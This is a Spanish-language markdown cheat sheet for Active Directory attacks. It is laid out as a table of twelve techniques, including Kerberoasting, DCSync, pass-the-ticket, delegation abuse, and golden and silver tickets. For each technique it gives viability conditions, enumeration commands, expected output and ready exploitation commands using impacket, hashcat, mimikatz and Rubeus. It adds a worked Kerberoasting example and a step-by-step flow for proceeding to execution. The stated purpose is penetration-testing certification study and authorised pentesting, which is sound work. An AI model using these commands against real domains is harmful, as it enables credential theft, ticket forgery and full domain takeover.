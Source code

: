 # 🩶 Tabla de Ataques Active Directory – Reconocimiento y Ejecución

| 🛠️ **Ataque** | 🩺 **Condiciones para ser viable** | 📜 **Comando de enumeración** | 🪓 **Salida esperada (OK / NO)** | ⚡ **Comando de explotación** |
|---|---|---|---|---|
| 🎯 **Kerberoasting** | Usuario con permisos de lectura en AD, presencia de cuentas con SPN | `setspn -T dominio -Q */*`<br>`impacket-GetUserSPNs -request -dc-ip DC_IP DOMAIN/user:pass` | ✅ OK: `CN=svc_account...`<br>❌ NO: `No such object` | `hashcat -m 13100 hash.txt wordlist.txt` |
| 🎯 **AS-REP Roasting** | Usuario con flag `DONT_REQ_PREAUTH` activo | `impacket-GetNPUsers domain/ -usersfile users.txt -dc-ip DC_IP -no-pass` | ✅ OK: `hash of user@DOMAIN`<br>❌ NO: `Pre-authentication required` | `hashcat -m 18200 hash.txt wordlist.txt` |
| 🎯 **Over-Pass-the-Ticket** | Poseer hash NTLM de usuario de dominio | N/A (tener hash NTLM) | ✅ OK: Hash NTLM disponible<br>❌ NO: No se posee hash | `mimikatz sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:cmd.exe` |
| 🎯 **Pass-the-Ticket** | Poseer ticket TGT/TGS válido (`kirbi` o `ccache`) | `klist` | ✅ OK: `krbtgt/domain`<br>❌ NO: `No credentials available` | `mimikatz kerberos::ptt ticket.kirbi` |
| 🎯 **Delegation Abuse (Unconstrained)** | Cuenta/máquina con `TrustedForDelegation` | `net user <machine$> /domain`<br>`Get-ADComputer -Filter {TrustedForDelegation -eq $true}` | ✅ OK: `Account is trusted for delegation`<br>❌ NO: No se indica delegación | Capturar TGT de usuarios en el host vulnerable usando `Rubeus` |
| 🎯 **Delegation Abuse (Constrained)** | Cuenta con `msDS-AllowedToDelegateTo` configurado | `bloodhound`<br>`Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne $null}` | ✅ OK: SPNs bajo `AllowedToDelegateTo`<br>❌ NO: Sin resultados | `Rubeus s4u` para abuso de `S4U2Proxy` |
| 🎯 **DCSync** | Usuario con `Replicating Directory Changes` | `dsacls "CN=Domain,DC=domain,DC=local"`<br>`bloodhound` | ✅ OK: `Replicating Directory Changes` visible<br>❌ NO: Sin permisos listados | `mimikatz "lsadump::dcsync /user:krbtgt"` |
| 🎯 **DCOM Abuse** | Admin local + DCOM habilitado + puertos abiertos | `nmap -p 135,445 target`<br>`net localgroup Administradores` | ✅ OK: Puertos abiertos + admin<br>❌ NO: Puertos cerrados o sin admin | `SharpCOM` o `wmic /node:"target" /user:"domain\\user" process call create "cmd.exe"` |
| 🎯 **ACL Abuse** | Permisos `GenericAll`, `WriteDACL`, `WriteOwner` | `bloodhound` | ✅ OK: Nodo con permisos excesivos<br>❌ NO: Sin permisos | Abusar con `PowerView Add-DomainObjectAcl` |
| 🎯 **PrintNightmare** | Spooler activo en DC | `rpcdump.py @target | findstr spoolss`<br>`Get-Service -Name Spooler` | ✅ OK: Servicio spooler activo<br>❌ NO: Spooler deshabilitado | Ejecutar exploit PrintNightmare |
| 🎯 **Golden Ticket** | Hash `krbtgt` del dominio | Dump con `mimikatz lsadump::dcsync` | ✅ OK: Hash `krbtgt` extraído<br>❌ NO: Sin hash | `mimikatz kerberos::golden /domain:<domain> /sid:<domain_sid> /krbtgt:<hash>` |
| 🎯 **Silver Ticket** | Hash de servicio (ej: `cifs` del host) | Dump con `mimikatz` | ✅ OK: Hash de servicio extraído<br>❌ NO: Sin hash | `mimikatz kerberos::golden /domain:<domain> /sid:<sid> /target:<fqdn> /service:cifs /rc4:<hash>` |

---

## 🩶 **Ejemplo extendido con salida para Kerberoasting:**

### Enumeración:
```cmd
setspn -T domain -Q */*
```
    ✅ Salida positiva:

```
CN=svc_sql,OU=Service Accounts,DC=domain,DC=local
    MSSQLSvc/SQL01.domain.local:1433
```
> Indica que svc_sql tiene un SPN, es vulnerable a Kerberoasting.

    ❌ Salida negativa:

```
No such object
```
**Indica que no hay cuentas con SPN configurado, no es posible Kerberoasting.**
Ejecución:

```bash
impacket-GetUserSPNs -request -dc-ip 192.168.1.10 domain/user:password
```
Genera hashes para crackear con:

```bash
hashcat -m 13100 hash.txt wordlist.txt
```
🛡️ Uso de esta tabla:

✅ Para cada técnica:

    * Corre el comando de enumeración y compara la salida con el ejemplo.

    * Si coincide con la salida positiva, proceder con la ejecución indicada.

    * Si coincide con la salida negativa, descartar temporalmente ese vector.

✅ Útil para:

    * OSCP/CRTP/CRTE/CRTO.

    * Pentesting corporativo real.

    * Armar dashboards internos para seguimiento de vectores.

